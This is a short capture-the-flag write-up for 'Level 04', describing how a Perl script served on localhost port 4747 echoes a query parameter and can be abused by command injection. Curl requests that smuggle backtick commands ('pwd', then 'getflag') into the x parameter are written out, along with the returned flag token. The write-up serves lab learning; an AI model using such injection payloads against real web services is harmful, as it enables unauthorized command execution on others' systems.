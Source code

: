 ## Level 04

in this level, we have a pl script that contains a var that will be echo
it's accessible on port 4747 if we do a request by changing the value of x variable, we can print different things with a ```GET``` method  
```curl -X GET http://localhost:4747?x='`pwd`'```
/var/www/level04 -> a different path for the level04
so we can understand that you can access content from level04 in the server
```cd /var/www/level04``` ```getflag```
and nope, it don't works.
```curl -X GET http://localhost:4747?x='`getflag`'```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
